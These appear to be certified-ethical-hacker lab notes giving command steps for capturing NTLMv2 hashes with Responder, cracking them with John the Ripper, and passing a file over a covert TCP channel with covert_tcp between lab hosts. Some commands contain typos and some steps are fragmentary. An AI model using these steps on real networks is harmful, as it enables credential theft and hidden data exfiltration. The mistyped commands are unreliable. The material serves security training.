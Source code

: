  **Perform Active Online Attack to Crack the System's Password using Responder**


**Linux:**

cd

cd Responder

chmox +x ./Responder.py

sudo ./Responder.py -I eth0

passwd: ****

**Windows**

run

\CEH-Tools


**Linux:**


Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt

sudo snap install john-the-ripper

passwd: ****

sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt


**Covert Channels using Covert_TCP**



**Attacker:**



cd Desktop

mkdir Send

cd Send

echo "Secret"->message.txt

Place->Network

Ctrl+L

smb://[IP]

Account & Password

copy and paste covert_tcp.c

cc -o covert_tcp covert_tcp.c

**Target:**


tcpdump -nvvx port 8888 -I lo

cd Desktop

mkdir Receive

cd Receive

File->Ctrl+L

smb://[IP]

copy and paste covert_tcp.c

cc -o covert_tcp covert_tcp.c

./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt

Tcpdump captures no packets



**Attacker**
./covert_tcp -dest 10.10.10.9 -source 10.10.10.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt

Wireshark (message string being send in individual packet)
